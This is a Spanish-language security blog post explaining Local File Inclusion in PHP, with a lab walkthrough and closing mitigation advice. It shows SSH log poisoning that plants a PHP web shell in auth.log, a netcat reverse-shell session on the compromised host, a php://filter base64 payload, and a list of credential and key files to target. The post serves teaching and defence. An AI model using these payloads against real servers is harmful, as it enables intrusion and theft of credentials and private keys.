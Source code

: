 ```yaml
---
date: 2023-07-25T20:00:05.000Z
layout: post
comments: true
title: Local File Inclusion
subtitle: 'Uso de wrappers'
description: >-
image: >-
    http://imgfz.com/i/yZDLQir.png
optimized_image: >-
    http://imgfz.com/i/yZDLQir.png
category: ciberseguridad
tags: 
  - hacking
  - owasp
  - wrappers
  - lfi
  - rfi
  - remote
  - rce
author: Felipe Canales Cayuqueo
paginate: true
---
```


La inclusión de archivos locales, o Local File Inclusion (LFI), es un tipo de vulnerabilidad de seguridad que permite a un atacante leer archivos del sistema de archivos del servidor. Esto puede ser explotado para proporcionar al atacante acceso a información sensible que de otro modo estaría protegida.

La vulnerabilidad LFI ocurre cuando una aplicación web utiliza la entrada del usuario para construir una ruta de archivo sin suficiente validación de entrada o sin sanitizar la entrada del usuario de manera adecuada. Por ejemplo, si una aplicación web toma un parámetro de la URL y lo usa para abrir un archivo en el servidor, un atacante podría potencialmente manipular ese parámetro para abrir cualquier archivo que desee.

## Caso práctico

Para realizar la comprobación de LFI se puede realizar lo siguiente:

[![lfi2](/images/lfi2.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/lfi2.png)

De esta manera, no solo se puede comprobar la existencia de la vulnerabilidad, sino que también se puede descubrir información sobre los usuarios del sistema.

[![lfi3](/images/lfi3.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/lfi3.png)

Si no nos permite acceder al ```/etc/passwd``` o queremos probar el acceso a otros directorios o archivos, podemos realizar un fuzzing para verificar el alcance de la siguiente forma con ```wfuzz```, ```gobuster```, entre otros:

[![lfi4](/images/lfi4.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/lfi4.png)

> Se pueden probar otros diccionarios como el de [Seclist](https://github.com/danielmiessler/SecLists).

Esto nos permite no solo visualizar alcance sino también identificar posibles directorios que permiten Remote File Inclusion (RFI).

### Remote File Inclusion (RFI)

Si el servidor está mal configurado o la aplicación es especialmente vulnerable, un atacante podría incluso ser capaz de utilizar una vulnerabilidad LFI para ejecutar código en el servidor.

En este caso se encontró el archivo ```auth.log```, el cual se usa típicamente para registrar eventos de autenticación, como inicios y cierres de sesión. Es posible por medio del puerto 22 SSH que se permita la interpretación de código que permita un RFI de la siguiente forma sin necesidad de conocer la contraseña:

```bash
┌─[root@kali]─[/home/user/lfi]
└──╼ ssh '<?php system($_GET['cmd']); ?>'@10.1.1.40  
The authenticity of host '10.1.1.40 (10.1.1.40)' can't be established.
ED25519 key fingerprint is SHA256:h+1ijitcr/kVnfc33XfHyMIJifcp2Vt9He9qc+ph1Xk.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.1.1.40' (ED25519) to the list of known hosts.
<?php system($_GET[cmd]); ?>@10.1.1.40's password: 
Permission denied, please try again.
<?php system($_GET[cmd]); ?>@10.1.1.40's password: 
Permission denied, please try again.
<?php system($_GET[cmd]); ?>@10.1.1.40's password: 
<?php system($_GET[cmd]); ?>@10.1.1.40: Permission denied (publickey,password).
               
```

Una vez realizamos este proceso, podremos ejecutar comandos de la siguiente forma:

[![lfi5](/images/lfi5.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/lfi5.png)

Por medio del siguiente siguiente código en php se puede devolver una shell interactiva a nuestra máquina atacante. 

[![lfi6](/images/lfi6.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/lfi6.png)


```bash
┌─[root@kali]─[/home/user/lfi]
└──╼ nc -nlvp 443   
listening on [any] 443 ...                
```

[![lfi7](/images/lfi7.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/lfi7.png)


```bash
┌─[root@kali]─[/home/user/lfi]
└──╼ nc -nlvp 443   
listening on [any] 443 ...
connect to [10.1.1.19] from (UNKNOWN) [10.1.1.40] 45112
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ ifconfig
enp0s8: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.1.2.11  netmask 255.255.255.0  broadcast 10.1.2.255
        inet6 fd17:625c:f037:2:3680:f705:d998:e4a0  prefixlen 64  scopeid 0x0<global>
        inet6 fd17:625c:f037:2:88c5:fc45:6c92:8fcc  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::9fbf:b0a0:b8de:8388  prefixlen 64  scopeid 0x20<link>
        ether 08:00:27:bf:db:0d  txqueuelen 1000  (Ethernet)
        RX packets 576  bytes 70357 (70.3 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 587  bytes 64426 (64.4 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

enp0s17: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.1.1.40  netmask 255.255.255.0  broadcast 10.1.1.255
        inet6 fd17:625c:f037:2:e57f:6313:9d59:5f34  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::e5df:32a2:43e5:9c3f  prefixlen 64  scopeid 0x20<link>
        inet6 fd17:625c:f037:2:e563:f97e:6c46:f9ba  prefixlen 64  scopeid 0x0<global>
        ether 08:00:27:bb:ab:38  txqueuelen 1000  (Ethernet)
        RX packets 1249661  bytes 196093620 (196.0 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1529423  bytes 580271835 (580.2 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 5577  bytes 550401 (550.4 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 5577  bytes 550401 (550.4 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

$ 
```

Finalmente obtenemos acceso al sistema por medio del archivo ```auth.log```. 

## Opciones de archivos sensibles al explotar un LFI

Recordar que estos son solo ejemplos y la ubicación y naturaleza exacta de los archivos sensibles pueden variar según el sistema y la configuración.

- `/etc/passwd`: Contiene información sobre cada cuenta de usuario en un sistema Unix o Linux.
- `/etc/shadow`: En sistemas Unix y Linux, este archivo contiene las contraseñas cifradas de los usuarios.
- `/var/log/auth.log`: Archivo de registro de autenticación en muchos sistemas basados en Unix.
- `/etc/hosts`: Puede contener asignaciones personalizadas de nombres de host a direcciones IP.
- `/etc/apache2/apache2.conf` y otros archivos de configuración del servidor web: Pueden revelar información sobre la configuración del servidor web.
- `.htaccess`, `wp-config.php`, y otros archivos de configuración de aplicaciones web: Pueden contener información sensible como contraseñas de bases de datos.
- `~/.ssh/id_rsa`: Este archivo contiene la clave privada de RSA para la autenticación SSH de un usuario.
- `~/.ssh/authorized_keys`: Este archivo puede contener una lista de claves públicas que se permiten autenticar en el sistema.
- Archivos de configuración de la base de datos, como `my.cnf` para MySQL: Estos pueden contener credenciales de base de datos o detalles de la configuración.

## Wrappers

En el contexto de la programación, un "wrapper" o envoltorio es un tipo de función, método o clase que contiene (o "envuelve") un conjunto de instrucciones o un objeto con el objetivo de agregar alguna funcionalidad adicional, ocultar la complejidad o cambiar la interfaz de lo que está envolviendo. En PHP, un "wrapper" puede ser utilizado para indicar el tipo de protocolo que se debe usar para acceder a un archivo o recurso. Por ejemplo, puedes tener "http://" o "ftp://" como wrappers en las rutas de los archivos.

### Ejemplo en base64

```
php://filter/convert.base64-encode/resource=<archivo>
```

[![lfi1](/images/lfi1.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/lfi1.png)


## Recomendaciones

1. **Validación de la entrada**: La entrada del usuario siempre debe tratarse con sospecha. Nunca deberías usar la entrada del usuario directamente en funciones que trabajan con el sistema de archivos sin validarla primero. La validación debe asegurar que la entrada es segura y está dentro de los parámetros esperados.

2. **Limitación del directorio**: Cuando sea posible, limita la inclusión de archivos a un directorio específico y niega el acceso a cualquier otro directorio. Esto puede limitar el alcance de cualquier vulnerabilidad de LFI.

3. **Desactiva la inclusión de archivos remotos**: En PHP, esto puede hacerse configurando `allow_url_include = Off` en el archivo `php.ini`. Esto puede prevenir la inclusión de archivos remotos, lo que puede ser un vector de ataque adicional cuando una vulnerabilidad de LFI está presente.

4. **Uso de listas blancas para la inclusión de archivos**: Si necesitas permitir la inclusión de archivos en función de la entrada del usuario, considera el uso de una lista blanca de archivos permitidos en lugar de depender de la validación de la entrada.

5. **Uso de funciones menos peligrosas**: En lugar de usar funciones como `include` o `require` en PHP, considera el uso de funciones que son intrínsecamente menos peligrosas, como `readfile` o `file_get_contents`, cuando sea apropiado.
